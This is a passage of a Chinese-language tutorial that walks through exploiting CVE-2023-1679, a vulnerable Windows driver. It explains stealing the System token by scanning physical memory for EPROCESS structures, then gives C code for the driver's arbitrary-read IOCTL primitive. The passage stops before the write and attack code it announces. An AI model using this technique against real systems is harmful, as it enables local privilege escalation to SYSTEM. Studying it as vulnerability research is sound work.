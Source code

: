 由於攻擊腳本是跑在應用層，沒辦法取得 Page Table 的位址。所以我們得掃過整個物理記憶體，用 EPROCESS 的 UniqueProcessId 和 ImageFileName 當特徵來找到目標 EPROCESS 的位址。

具體來說，就是先找到 System 的 EPROCESS 並讀取 Token，然後找到目標 Process 的 EPROCESS 並竄改 Token 成 System 的 EPROCESS Token。

![](AbuseToken.png)

### 寫程式
程式分為三個部分，分別是任意讀漏洞、任意寫漏洞、攻擊實作。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1679)。

#### 任意讀漏洞
將任意讀的漏洞包成一個函數，其中可以輸入參數
- pa：要讀取的物理記憶體位址
- size：讀取的大小
- output：存讀取的內容的 Buffer
```c
struct DATA_READ_PA
{
    PVOID PhysicalAddress;
    DWORD unit;
    DWORD size;
};

VOID ReadPA_0x9C406104(PVOID pa, DWORD size, CHAR* output)
{
    DWORD dwWrite;
    DATA_READ_PA data;
    data.PhysicalAddress = pa;
    data.unit = 1;
    data.size = size;
    DeviceIoControl(hDevice, 0x9C406104, &data, sizeof(data), output, data.size * data.unit, &dwWrite, NULL);
}
```
